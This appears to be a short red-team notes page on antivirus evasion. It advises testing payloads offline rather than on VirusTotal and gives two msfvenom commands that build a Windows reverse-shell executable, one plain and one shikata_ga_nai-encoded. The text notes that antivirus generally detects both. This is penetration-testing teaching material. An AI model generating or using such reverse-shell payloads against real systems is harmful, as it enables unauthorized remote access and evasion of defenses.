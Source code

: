 # Antivirus evasion

The easiest way to test payloads is to upload them to [VirusTotal](https://www.virustotal.com/#/home/upload). They share uploads with anti-malware companies so if you're planning to use a payload in a red team operation, it might be better to test it in a VM with your target network's antivirus installed.

Most antivirus software will detect unencoded payloads like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -o
nc.exe
```
Even when a payload is encoded with [shikata ga nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) it is still generally detectable by antivirus because the executable template is recognized:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -o nc.exe
```
